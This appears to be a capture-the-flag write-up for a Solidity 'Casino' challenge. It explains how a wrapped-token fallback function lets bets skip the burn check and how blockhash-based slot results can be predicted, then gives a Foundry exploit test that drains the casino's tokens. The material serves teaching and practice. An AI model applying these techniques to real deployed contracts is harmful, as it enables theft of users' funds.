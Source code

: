 # Challenge - Casino

In this challenge, a `Casino` contract and a `wNative` contract were deployed. The `wNative` contract was designed similarly to `WETH` and was set as the accepted betting token for the casino contract.

The setup minted 1 and 1000 ether `wNativetokens` for the player and the casino, respectively.

## Objective of CTF

To pass this level, we needed to empty the wNative token in the Casino contract.

## Vulnerability Analysis

The `Casino` contract has a `play` function that allows players to bet and potentially win extra `cTokens` (`cToken.get(msg.sender, amount * slot())`). The relevant portion of the play function is shown below:

```solidity
function play(address token, uint256 amount) public checkPlay {
    _bet(token, amount);
    CasinoToken cToken = isCToken(token) ? CasinoToken(token) : CasinoToken(_tokenMap[token]);
    // play

    cToken.get(msg.sender, amount * slot());
}
```

In the `_bet` function, the contract first checks if the token is allowed, then uses a try-catch block to handle two possible token types. Initially, the function assumes that the token is a `cToken` and directly calls `cToken.bet(msg.sender, amount)`. If the token does not have the `bet(address, uint256)` function (which is the case for non-cTokens like wNative), the call fails and execution moves to the catch block.

```solidity
function _bet(address token, uint256 amount) internal {
    require(isAllowed(token), "Token not allowed");
    CasinoToken cToken = CasinoToken(token);
    try cToken.bet(msg.sender, amount) {}
    catch {
        cToken = CasinoToken(_tokenMap[token]);
        deposit(token, amount);
        cToken.bet(msg.sender, amount);
    }
}
```

Here lies the vulnerability. The `wNative` contract has a `fallback` function that gets triggered when no specific function is matched. As a result, if we bet using `wNative` tokens, the `cToken.bet(msg.sender, amount)` call will be bypassed, even if there are not enough `cTokens` to burn.

```solidity
fallback() external payable {
    deposit();
}
```

The `bet` function in the `CasinoToken` contract is supposed to burn tokens when a bet is placed:

```solidity
function bet(address account, uint256 amount) public onlyOwner {
    _burn(account, amount);
}
```

However, because the `fallback` function in the `wNative` contract intercepts the call, the `bet` function is effectively bypassed, allowing us to bet without burning any `cTokens`.

Additionally, the `slot` function, which determines the outcome of a bet, is predictable. It relies on `blockhash` and `block.number` as the source of randomness, but these values are not truly random. An attacker can call the `slot` function in advance to determine the outcome before placing a bet, allowing them to guarantee a win.

```solidity
function slot() public view returns (uint256) {
    unchecked {
        uint256 answer = uint256(blockhash(block.number - 1)) % 1000;
        uint256[3] memory slots = [(answer / 100) % 10, (answer / 10) % 10, answer % 10];
        if (slots[0] == slots[1] && slots[1] == slots[2]) {
            if (slots[0] == 7) {
                return 100;
            } else {
                return 10;
            }
        } else if (slots[0] == slots[1] || slots[1] == slots[2] || slots[0] == slots[2]) {
            return 3;
        } else {
            return 0;
        }
    }
}
```

There are two main vulnerabilities in the challenge:

1. The fallback mechanism in the `wNative` contract, which allows bets without burning cToken.
2. The predictability of the `slot` function, which allows an attacker to calculate the outcome before betting.

### Attack steps:

1. Call the `play` function after verifying that the `slot` function returns a value greater than zero. Place a bet with an amount of `1000 ether / slot() + 1`.

## PoC test case

```solidity
function testExploit() public {
    vm.startPrank(challenger);
    for (uint256 i; i < 100; ++i) {
        vm.roll(block.number + i);
        vm.warp(block.timestamp + i);

        if (casino.slot() == 10) {
            casino.play(wNative, 100 ether);
        }
    }

    casino.withdraw(wNative, 1000 ether);
    vm.stopPrank();

    base.solve();
    assertTrue(base.isSolved());
}
```

### Note:

If I test with the following snippet:

```solidity
if (casino.slot() > 0) {
    casino.play(wNative, 1e21 / casino.slot() + 1);
}
```

It will trigger with `EvmError: StateChangeDuringStaticCall`, I have no ideal why.

```
├─ [19859] Casino::play(WrappedNative: [0x104fBc016F4bb334D775a19E8A6510109AC63E00], 333000000000000000000 [3.33e20])
    │   ├─ [2717] WrappedNative::bet(challenger: [0x9591B1C38D7ae6c50aA134A72bcF85fBf690fe51], 333000000000000000000 [3.33e20])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: Casino: [0x037eDa3aDB1198021A9b2e88C22B464fD38db3f3], value: 0)
    │   │   └─ ← [Stop]
    │   ├─ [461] WrappedNative::underlying() [staticcall]
    │   │   └─ ← [StateChangeDuringStaticCall] EvmError: StateChangeDuringStaticCall
    │   └─ ← [OutOfGas] EvmError: OutOfGas
    └─ ← [Revert] EvmError: Revert
```

### Test Result

```
Ran 1 test for test/Casino.t.sol:CasinoTest
[PASS] testExploit() (gas: 1040581886)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.96ms (953.21µs CPU time)

Ran 1 test suite in 216.96ms (1.96ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
